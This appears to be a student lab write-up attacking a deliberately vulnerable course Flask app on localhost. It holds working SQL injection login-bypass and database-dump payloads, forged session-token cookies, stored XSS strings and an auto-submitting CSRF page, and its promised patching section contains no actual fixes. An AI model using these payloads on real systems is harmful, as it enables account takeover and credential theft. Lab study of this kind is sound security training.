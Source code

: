 = Writeup
0x42697262; Orochi; Jinx
2024-02-24

Authors:

- 0x42697262
- Jinx
- Orochi

## This Damned Vulnerable Snake!

== TL;DR

[NOTE]
====
All of the CVEs listed here are hypothetical! 
They do not represent real world CVEs.        
====

=== Vulnerabilities Discovered

==== SQL Injection Authentication Bypass (aCVE-2024-0001)

[,sh]
----
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR TRUE --&password="
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION SELECT id FROM users; --&password="
----

==== Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)

Use these as the message:

> * ``<script>alert(document.domain)</script>``
> * ``<script>alert(window.origin)</script>``
> * ``1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--``
> * ``1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--``


==== Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)

[,sh]
----
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --" 
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=message=1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--"
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--"
curl -L 'http://0.0.0.0:5000/logout'  -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users --"
----

==== User Message CSRF via POST Request (aCVE-2024-0004)

Create ``malicious.html`` where a form calls the post method on an endpoint with an SQL injection as the message.

[,html]
----
<html>
<body>
    <h1>CSRF Payload</h1>
    <form id="csrfForm" action="http://127.0.0.1:5000/posts" method="POST">
        <input type="hidden" name="message" value="1&#39;, 1&#41;, ((SELECT GROUP_CONCAT(user || ':' || token, '&#8249;br>') FROM sessions), 1)--">
    </form>
    <script>
        // Automatically submit the form when the page loads
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
----

or

[,html]
----
 <html>
<body>
    <h1>CSRF Payload</h1>
    <form id="csrfForm" action="http://127.0.0.1:5000/posts" method="POST">
        <input type="hidden" name="message" value="1', 1&#41;, ((SELECT >GROUP_CONCAT(id || ',' || username || ':' || password, '&#8249;br>') FROM users), 1)--">
    </form>
    <script>
        // Automatically submit the form when the page loads
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
----

=== SUMMARY

The web server is vulnerable mostly to SQL injection attacks due to the incorrect implementation of SQL queries.
Which allows major vulnerabilities to be exploited.

However, this can easily be fixed by implementing input sanitization to prevent such attack.

Both CSRF and XSS attacks are also vulnerabilities of the web server however it is not as critical to SQL injection attacks.

All fixes to mitigating the vulnerabilities can be found in <<_patching_the_vulnerabilities>> portion of this writeup.


== Introduction

Another month, another machine problem.
However this time, we're diving into some white-box penetration testing, which means we have full access to the source code of the web server.

The instructions to install and run the server is already provided in the xref:random:cmsc134-writeups/machine-problem-3/sources.adoc#_readme_txt_from_mp3_zip[README.txt] (when xref:random:cmsc134-writeups/machine-problem-3/sources.adoc#_mp3_zip[mp3.zip] is extracted).
Please read and follow the instructions to setup the Python Flask web server.

Once the server is up and running, visit http://0.0.0.0:5000[] and be greeted with a remnant of the 90s internet web page login.
*Don't worry about its appearance.*
*It's ugly because there's no CSS, as intended.*

The database contains four tables: ``posts``, ``sessions``, ``users``, and ``sqlite_sequence``.
The last one is not needed.

> * ``posts`` contains user posts
> ** ``id`` as primary key
> ** ``message`` as text
> ** ``user`` as integer
> * ``sessions`` contains session tokens of an authenticated user
> ** ``id`` as primary key
> ** ``user`` as integer
> ** ``token`` as text
> * ``users`` contains username and password
> ** ``id`` as primary key
> ** ``username`` as text
> ** ``password`` as text

The ``sessions`` table has data containing

|===
|id |user |token

|7 |1 |e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65
|===

Similar to the ``users`` table

|===
|id |username |password

|1 |alice |12345678
|===

Then that's it.
That's the only thing that can be seen on the website without logging in.
There's no ``robots.txt`` because the web server is simple and small.

The mission of this machine problem?
It is to *find vulnerabilities* as much as possible and *exploit* them.

That is what we will be doing today!

[NOTE]
====
If using a web browser is annoying, use ``curl``.
====

[,sh]
----
curl -L 'http://0.0.0.0:5000'
----

And return an HTML login page.

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <form method="post" action="/login">
      <label for="username">Username</label>
      <input name="username" type="text" />
      <label for="password">Password</label>
      <input name="password" type="password" />
      <input type="submit" value="Login" />
    </form>
  </body>
</html>
----

== Exploitation

Since we have full access to the server already, there's no need to perform reconnaissance. 
But for the sake of knowing the endpoints of the server without needing to check the source code, we can run ``flask routes`` and this will show us the endponts

....
Endpoint  Methods    Rule                   
--------  ---------  -----------------------
home      GET        /home                  
home      GET        /                      
login     GET, POST  /login                 
logout    GET        /logout                
posts     POST       /posts                 
static    GET        /static/<path:filename>
....

I am guessing there are potential SQL injection, XSS, and CSRF attacks on the ``login``, ``logout``, and ``posts`` endpoints.

*Thus, let's head right into the explotation phase!*

First up is the login page.

.Login page
image::cmsc134-writeups/machine-problem-3/1_login.png[]

There is no need to *bruteforce* the login page as its vulnerability is obvious.

[IMPORTANT]
====
The web server is also vulnerable to bruteforce and denial-of-service attacks because of the severity of other vulnerabilities found.
====

Take a look at this code, it is possible to perform SQL injection to it.

[,python]
----
@app.route("/login", methods=["GET", "POST"])
def login():
  cur = con.cursor()
  if request.method == "GET":
    if request.cookies.get("session_token"):
      res = cur.execute("SELECT username FROM users INNER JOIN sessions ON " <.>
                          + "users.id = sessions.user WHERE sessions.token = '"
                          + request.cookies.get("session_token") + "'")
      user = res.fetchone()
      if user:
        return redirect("/home")

    return render_template("login.html")
  else:
    res = cur.execute("SELECT id from users WHERE username = '" <.>
                  + request.form["username"]
                  + "' AND password = '"
                  + request.form["password"] + "'")
    user = res.fetchone()
    if user:
      token = secrets.token_hex()
      cur.execute("INSERT INTO sessions (user, token) VALUES (" <.>
                  + str(user[0]) + ", '" + token + "');")
      con.commit()
      response = redirect("/home")
      response.set_cookie("session_token", token)
      return response
    else:
      return render_template("login.html", error="Invalid username and/or password!")
----
<.> 1st vulnerable sql injection
<.> 2nd vulnerable sql injection
<.> 3rd vulnerable sql injection

Notice that the flow of this code redirects to the homepage when a session is present but proceeds to the login page when one is not.

On the ``GET`` method request, the SQL code is vulnerable.
However, we won't be focusing on that.




=== SQL Injection Authentication Bypass (aCVE-2024-0001)

The simplest part is the ``POST`` request because even if we don't have full access to the source code, we can still conduct basic checks to determine if the server is vulnerable or not.

This part of the code can be exploited to bypass the login and allows us to use the first user index, usually admin or root in others.

[,python]
----
res = cur.execute("SELECT id from users WHERE username = '"
            + request.form["username"]
            + "' AND password = '"
            + request.form["password"] + "'")
----

To exploit this page, simply set the username to a SQL query that evaluates to ``TRUE``.

> - ``228922' OR 1=1 --``
> - ``228922' OR TRUE --``

.SQL Injection on the login page
image::cmsc134-writeups/machine-problem-3/2_login_sqlinject.png[]

This would get parsed by the sqlite3 handler as

[,sql]
----
SELECT id from users WHERE username = '228922' OR 1=1 -- AND password = ''
----

[NOTE]
====
``'`` is used instead of ``"`` because that's what the source code uses.
Otherwise, it's ``"``.
====

And we're in!
We should now be greeted with

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      No posts.
    </ul>
  </body>
</html>
----

And logged in as ``alice``.


.Bypassed login
image::cmsc134-writeups/machine-problem-3/3_alice.png[]

Unfortunately, the database only contains ``alice`` as the user (not even root or admin) and an unhashed password (which is very unsecure!!!).

Let's just call this *SQL Injection Authentication Bypass (aCVE-2024-0001)* as some sort of a tracker for this machine problem (of course this CVE doesn't exist irl, a joke btw).



To explain how this works, the original SQL statement looks for a ``username`` if it exists then proceeds to verify the ``password``.
But since we have modified the ``WHERE`` clause, it wouldn't matter if a username does not exist since it would always evaluate to ``TRUE``.

This would mean that the SQL parameter would be similar to ``SELECT id FROM users;`` then only fetch the first result.

Logging in as the first user is boring.

*_What if we try logging in on a specific user?_*

The same method is performed in executing a SQL injection.

[,sql]
----
' UNION select 24 from users; --
----

This would not work for now since there is only one user, but if a user with id 24 exists, it would login to that user without a password.

[,sql]
----
' UNION select 1 from users; --
----

Notice this line of code of the login function

[,python]
----
if user:
  token = secrets.token_hex()
  cur.execute("INSERT INTO sessions (user, token) VALUES ("
              + str(user[0]) + ", '" + token + "');")
  con.commit()
  response = redirect("/home")
  response.set_cookie("session_token", token) <.>
  return response
----
<.> Create session token for the user

A token is created every time a user successfully logs in.
In our case, when logging in as another user (existent or non-existent), it still creates a session token.

We can try retrieving all of the session tokens or username and passwords by dumping the database.
See the next aCVE.



=== Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)

Neat!
We are now greeted with yet another ugly HTML home page.

This home page have two HTTP request methods, a *GET* method for logging out the user (potential CSRF) and a *POST* method for storing posts on the user's home page (potential for Stored XSS).

Let's see if the server is vulnerable to XSS.
We can test that by using a Javascript code (just pick one)

> * ``<script>alert(window.origin)</script>``
> * ``<script>alert(document.domain)</script>``

and post!

.Stored XSS
image::cmsc134-writeups/machine-problem-3/4_xss.png[]


We got ourselves a Stored XSS!
However, is it a vulnerability?
Let's see the results of the returned home page

[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      <li><script>alert(window.origin)</script></li> <.>
    </ul>
  </body>
</html>
----
<.> Our message got stored as XSS!

The ``body`` now contains a list of messages and right there is our Javascript code that will execute everytime the page is loaded.

The alert message should pop up ``http://0.0.0.0:5000`` if it is vulnerable to XSS.
Otherwise, it would return ``null`` if it is not vulnerable to XSS due to sandboxing mechanism implemented by the server.

Thus, another vulnerability is spotted!

But wait, there's more.
The source code of the server is also *vulnerable to SQL Injection*!

[,python]
----
@app.route("/posts", methods=["POST"])
def posts():
  cur = con.cursor()
  if request.cookies.get("session_token"):
    res = cur.execute("SELECT users.id, username FROM users INNER JOIN sessions ON "
                          + "users.id = sessions.user WHERE sessions.token = '"
                          + request.cookies.get("session_token") + "';")
    user = res.fetchone()
    if user:
      cur.execute("INSERT INTO posts (message, user) VALUES ('" <.>
                        + request.form["message"] + "', " + str(user[0]) + ");")
      con.commit()
      return redirect("/home")
    return redirect("/login", error="test")
----
<.> We can dump the database through this

In the SQL query ``INSERT INTO posts (message, user) VALUES ('...``, it is possible to dump the session tokens or even the username and password!

This can be done by crafting the ``message``

[,sql]
----
1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--
----

And once executed, this should return the home page with its posts.

.Dumping User Login and Password
image::cmsc134-writeups/machine-problem-3/5_xss_sqlinjection.png[]

[,html]
----
...
<li>1</li>
<li>1,alice:12345678</li>
...
----

And boom!
*We are able to grab ``alice``'s password!*
And other users as well if they exists.

Since we're able to grab the username and password, there's no need for the session tokens, right?
Nah, we're still gonna do it.

[,sql]
----
1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--
----

And we're able to grab all the user sessions!

.Dumping User Session Tokens
image::cmsc134-writeups/machine-problem-3/6_xss_2.png[]

[,html]
----
<li>1</li>
<li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
----

Let's call this Vulnerability as *Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)*.

To explain how this works, the original SQL query takes a valid input message and passes it to the sqlite3 handler.

[,sql]
----
INSERT INTO posts (message, user) VALUES ('<script>alert(document.domain)</script>', 1);
----

However, since we have replaced the ``message`` with injected SQL query, it would now look like this

[,sql]
----
INSERT INTO posts (message, user) VALUES ('1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1); -- ', 1);
----

This will first insert the message ``1`` into *user 1* and then insert the SQL query of concatenating the results of users and tokens resulting to dumping the users and tokens.

Similarly, this works for dumping the username and password.

The scary thing about this vulnerability is that we can post a message on another user!
This can be done by simply changing the user ID to another user (doesn't matter if it does not exist).

[,sql]
----
1', 69), ("I know you read 228922", 69) --
----

This will get inserted to the database on user 69.


.Posting on Another User
image::cmsc134-writeups/machine-problem-3/7_xss_3.png[]




=== Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)

Okay, bypassing the login page and then able to post a message on another user requires a bit more of an effort.
*Why not just bypass the session token instead?*

The web server is vulnerable to SQL injection, all of the SQL parameters are vulnerable to it.
Thus with this context, let us try _*posting as another user without logging in!*_

Session tokens are important for user authentication.
Usually, they are stored as a *cookie* to the web browser and it gets passed to an HTTP request method.

Forging the session token might need a different tool or simply modify the cookie itself in the web browser.

The web server uses ``session_token`` which is evident in the source code ``request.cookies.get("session_token")``.

Modifying the session token in the web browser is tad a bit annoying.
I like to do it with ``curl`` instead (or use Burpsuite if you want to).

A legitimate GET request with the session token looks like this using curl

[,bash]
----
curl -L 'http://0.0.0.0:5000/' -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65"
----

Assuming that the session token exists, this would return the home page of the user.

[NOTE]
====
This actually exists in the database provided by the machine problem.
====

.Example Using curl
image::cmsc134-writeups/machine-problem-3/8_curl.png[]


[,html]
----
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
  </body>
</html>
----

We can now make a POST request with similar method

[,bash]
----
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65" --data-raw 'message=Breasts or Thighs? Which contains more meat? For a value meal.'
----

And running the GET request curl command once again will output

.Posting with curl
image::cmsc134-writeups/machine-problem-3/9_curl2.png[]

[,html]
----
...
<ul>
  <li>Breasts or Thighs? Which contains more meat? For a value meal.</li>
</ul>
...
----

That's basically it.
Next is attacking the session token cookie.

On the assumption that a user ID exists, forging a session token is performed this way

```bash
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT 1 as id, 'random_name' as username FROM users LIMIT 1 --" 
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --" 
```

.Session Token Bypass
image::cmsc134-writeups/machine-problem-3/10_session_bypass.png.png[]

And we're in.

This vulnerability is dubbed as **Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)**.

As to how this works, a legitimate SQL query appears as

[,sql]
----
SELECT users.id, username
FROM users
INNER JOIN sessions
ON users.id = sessions.user
WHERE sessions.token = 'e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65';
----

which is found in

[,python]
----
res = cur.execute("SELECT users.id, username FROM users INNER JOIN sessions ON "
    + "users.id = sessions.user WHERE sessions.token = '"
    + request.cookies.get("session_token") + "';")
user = res.fetchone()
----

This would return a list of users with that session token, and the first index is taken as the user.

The result of the SQL query is

```
(1,alice)
```

However, this following code only checks and uses the user ID

```python
if user:
  cur.execute("INSERT INTO posts (message, user) VALUES ('"
    + request.form["message"] + "', " + str(user[0]) + ");")
```

ignoring the name of the user.

This allows us to forge a session token with random names for any given user (even those that doesn't exists).

**Since this vulnerability exists throughout the source code, it also serves as a means to post as another user without knowing their password!**
The attack is crafted this way

```bash
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT 1 as id, 'doyou' as username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
```

And checking the posts

```bash
curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT 1 as id, '' as username FROM users LIMIT 1 --" 
```

the output is

```html
...
<li>Breasts or Thighs? Which contains more meat? For a value meal.</li>
<li>alice watches 228922</li>
...
```

***This is a serious concern...***

It is also possible to force a user to logout of their session (equivalent to deleting the session tokens in the database)

```bash
curl -L 'http://0.0.0.0:5000/logout' -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users--"
```

This vulnerability might give a hint to CSRF (Cross-Site Request Forgery) attack.


== Patching the vulnerabilities

change code bro

== Writeups from other people

- https://sycasec.github.io/sycasec/post/mp3[sycasec's writeup]
